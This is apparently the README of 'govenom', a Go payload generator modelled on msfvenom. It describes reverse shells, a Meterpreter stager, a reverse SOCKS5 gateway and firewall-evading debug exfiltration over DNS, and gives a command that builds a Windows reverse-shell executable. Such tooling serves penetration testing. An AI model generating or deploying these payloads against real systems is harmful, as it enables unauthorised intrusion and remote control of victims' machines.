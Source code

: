 <p align="center">
  <img alt="govenom Logo" src="https://repository-images.githubusercontent.com/208469800/1d777d80-e3d9-11ea-8f39-739f2e6af4d9" height="140" />
  <h1 align="center"><b>govenom</b></h1>
  <p align="center"><i>No clue about the target environment, installed shells, firewall rules? Uncommon CPU architecture?</br>Govenom has you covered!</i></p>
  <p align="center">
    <a href="https://github.com/erikgeiser/govenom/releases/latest"><img alt="Release" src="https://img.shields.io/github/release/erikgeiser/govenom.svg?style=for-the-badge"></a>
    <a href="/LICENSE.md"><img alt="Software License" src="https://img.shields.io/badge/license-MIT-brightgreen.svg?style=for-the-badge"></a>
    <a href="https://github.com/erikgeiser/govenom/actions?workflow=Check"><img alt="GitHub Actions" src="https://img.shields.io/github/workflow/status/erikgeiser/govenom/Check?label=Check&style=for-the-badge"></a>
    <a href="https://github.com/erikgeiser/govenom/actions?workflow=Build"><img alt="GitHub Actions" src="https://img.shields.io/github/workflow/status/erikgeiser/govenom/Build?label=Build&style=for-the-badge"></a>
    <a href="https://goreportcard.com/report/github.com/erikgeiser/govenom"><img alt="Go Report Card" src="https://goreportcard.com/badge/github.com/erikgeiser/govenom?style=for-the-badge"></a>
  </p>
</p>

`govenom` is a `msfvenom`-inspired payload generator written in
Go. This makes it easy to cross-compile static binaries for a
variety of target platforms. It is also much faster than `msfvenom`.

## Payloads

Currently, four payloads are supported:

- **rsh:** A simple reverse shell. It selects one of the most common
  shells binaries and makes it available via TCP or UDPconnection.
- **xrsh:** An extended robust reverse shell. A simple heuristic
  determines the most suitable shell executable, taking shells that
  are installed but not in `$PATH` into account. In contrast to most
  other available shells out there, additional info can be sent via
  alternative communication channels via the exfiltration mechanism
  (see relevant section below). For example, if no shell could be
  detected or the connection could not be established due to a
  firewall, the corresponding error can be exfiltrated via DNS.
- **stager**: A shellcode stager that is compatible with Metasploits
  `exploits/multi/handler` with a `meterpreter/reverse_tcp` payload.
  It first reads a 4 Byte shellcode length and then the shellcode
  itself from a TCP connection and executes it. Currently, this is
  only available for Windows targets.

- **socks5**: A `socks5` server via a reverse TCP connection. It
  connects back to the `gateway` tool and provides network access
  to the target's network. The `sockst5` server on the target
  system can only be accessed by connecting to the gateway listener
  opened by the govenom `gateway` tool.

## Exfiltration

Sometimes a shell you placed on target system does not appear to
connect back. Most of the time this results in a lot of trial and
error. Maybe the firewall blocks TCP connections or maybe just one
of the ports you tried. Maybe you expected `powershell` to be
present but only `cmd` is there. The solution to problem is the
`govenom` debug log exfiltration mechanism which can optionally be
used with `xrsh` and `stager` payloads. It lets you configure an
arbitrary amount of exfiltration strategies of the following types:

- **`stdout`/`stderr`:** If you can capture the output of your
  payload when it's executed, you can output debug logs via
  `stdout/stderr`.

- **DNS:** The most useful exfiltration type because noone blocks
  DNS. Messages are encoded and split into parts which can be put
  together again by the `govenom` tool `dnslogger` (see section
  below).

- **File:** Write the debug information into a file on the target
  system. This is for example useful if you can recover files via a
  local file inclusion vulnerability.

- **Net (`dial`):** Send the debug log via a TCP or UDP connection
  that's different from the original connect back connection.

## Tools

`govenom` also provides some tools to work with the payloads:

- **dnslogger:** The `dnslogger` tool decodes and recombines messages
  that were exfiltrated via DNS.

- **pusher:** The `pusher` tool can serve and deliver `meterpreter`
  shellcode generated using `msfvenom` to the `govenom` stager payload.

- **gateway:** the gateway for the `sockst` payload. It waits for
  the payload to connect back and starts a lister which forwards
  connection to the payload's `socks5` server and thus acts as a
  gateway into the target's network.

## Building

`govenom` can be built in two ways. It either generate payloads
directly from the source code in the `./payloads` folder of this
repos or it can be built with the source code embedded such that
it works as a standalone binary. The binaries distributed with
releases are standalone binaries.

```bash
# build a govenom binary that uses the payload code
# directly from the repository
go build

# build a standalone govenom binary (see the standalone
# Makefile section for the commands to build on Windows)
make standalone
```

## Usage

Run `go run govenom.go` for detailed usage information. The following
example generates the extended reverse shell for a 32-Bit Windows
target that connects back to `127.0.0.1:1337` and uses multiple debug
exfiltration strategies:

```bash
# generate a payload
govenom payload xrsh -d 127.0.0.1:1337 \
    --os windows --arch 386 \
    --exfil dns:example.com,stdout,dial:udp:127.0.0.1:1234 \
    -o revsh.exe

# run a tool
govenom ./govenom.go tool dnslogger
```

**Note:** Go has to be installed to run `govenom` itself and it is
also used by `govenom` itself to build the selected payloads.

## FAQ:

---

**The `govenom` integrity cannot be verified on macOS**

macOS adds a quarantine attribute to downloaded binaries
which you can remove with the following command:

```
xattr -d com.apple.quarantine ./govenom
```

---

## Plans

- Connection encryption
- Reverse shell listener like `ncat` with logging capabilities
- Linux support for the `stager` payload

Thanks to [https://quasilyte.dev]() for the logo.
